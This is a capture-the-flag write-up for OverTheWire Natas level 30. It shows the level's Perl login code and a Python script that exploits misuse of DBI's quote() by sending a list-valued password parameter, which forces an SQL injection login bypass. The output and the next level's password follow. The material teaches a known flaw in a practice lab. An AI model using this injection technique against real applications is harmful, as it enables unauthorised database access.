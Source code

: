 # Level 30

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas30.natas.labs.overthewire.org](http://natas30.natas.labs.overthewire.org)
- username: `natas30`
- password: `Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X`

## Solution

![start](./start.jpg)

Let's see the source code:

```perl
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

    my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}
```

So looks pretty simple. By googling we can find, that [quote()](https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection/175872#175872) is vulnerable due to misuse:

![vuln](./vuln.jpg)

Let's write python script to implement it:

```py
import requests

# Base URL
url = 'http://natas30.natas.labs.overthewire.org/index.pl'

# Function to make POST request
def send_request():

    # Our parameters
    params = dict(username="natas31", password=['"any" or 1', 4])
    
    headers = {
        'Authorization': 'Basic bmF0YXMzMDpHejRhdDhDZE9ZUWtrSjhmSmFtYzExSmc1aE9uWE05WA==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas30.natas.labs.overthewire.org',
        'Referer': 'http://natas30.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Make the POST request
    response = requests.post(url, headers=headers, data=params)

    return response.text

response = send_request()
print(response)
```

Output:

```
...
here is your result:natas31AMZF14yknOn9Uc57uKB02jnYuhplYka3
...
``` 

## Password

`natas31`:`AMZF14yknOn9Uc57uKB02jnYuhplYka3`

*Created by [bu19akov](https://github.com/bu19akov)*